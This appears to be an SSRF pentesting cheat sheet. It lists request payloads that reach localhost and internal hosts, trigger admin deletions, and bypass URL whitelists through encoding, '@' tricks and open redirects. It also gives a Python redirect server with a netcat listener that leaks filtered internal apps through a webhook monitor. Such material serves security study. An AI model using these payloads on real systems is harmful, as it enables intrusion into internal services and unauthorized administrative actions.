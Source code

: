 ```yaml
---
title: Server-Side Request Forgery (SSRF)
desc: 
tags: [SSRF, Web, Webhook]
alts: []
render_with_liquid: false
---
```


## Capture Tools

If you want to capture the SSRF affections, there are some online tools available for capturing SSRF.

- **[Webhook.site](https://webhook.site/){:target="_blank"}{:rel="noopener"}**

- **[pingb.in](http://pingb.in/){:target="_blank"}{:rel="noopener"}**

<br />

## Basic Methodology

- **Localhost**

    ```html
    POST /stock HTTP/1.1
    ...

    stockApi=http://localhost/
    ```

    The followings are alternatives for localhost.

    ```
    stockApi=http://127.0.0.1/
    stockApi=http://2130706433/
    stockApi=http://017700000001/
    stockApi=http://127.1/
    ```

    - **Operation as Administrator**

        ```
        stockApi=http://localhost/admin
        stockApi=http://localhost/admin/delete?username=john

        stockApi=http://127.1/%25%36%31dmin
        ```

- **Backund URL (192.168.0.X)**

    ```
    stockApi=http://192.168.0.23/admin
    stockApi=http://192.168.0.68:8080/admin/delete?username=michael
    ```

- **Bypass Whitelisted URL**

    ```
    stockApi=http://localhost@vulnerable.com/
    stockApi=http://localhost%25%32%33@vulnerable.com/
    ```

- **Open Redirect**

    ```
    stockApi=/post/next?path=http://localhost/admin
    ```

- **Bypass Hostname**

    1. **Add Target Domain to /etc/hosts in Local Machine**

        ```sh
        <target-ip> sub.vulnerable.com
        ```

        Restart hostnamed

        ```sh
        sudo systemctl restart systemd-hostnamed
        ```

    2. **Access to the Domain You Specified**

        ```
        https://vulnerable.com/?proxy=https://sub.vulnerable.com
        ```

<br />

## Reveal Filtered Websites via Monitoring Tools (Webhook)

Some web apps may have monitoring tools that check the health of external websites.  
You may be able to reveal hidden contents of the target via the monitor.  
First off, create a redirect server using Python. Here it’s named “redirect.py”.

```py
#!/usr/bin/python3
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
  def do_GET(self):
      self.send_response(302)
      self.send_header('Location', sys.argv[1])
      self.end_headers()

HTTPServer(("0.0.0.0", 8000), Redirect).serve_forever()
```

After creating, run the following command.  
Assume that the filtered port is 3000 (nmap will reveal it).

```sh
python3 redirect.py http://127.0.0.1:3000
```

And start listener for receiving the POST request of the webhook from the target website.

```sh
nc -lvnp 4444
```

Now set the configuration of the webhook. For example:

```
Payload URL: http://<local-ip>:4444/
Monitored URL: http://<local-ip>:8000/
```

You can see the contents of the filtered app.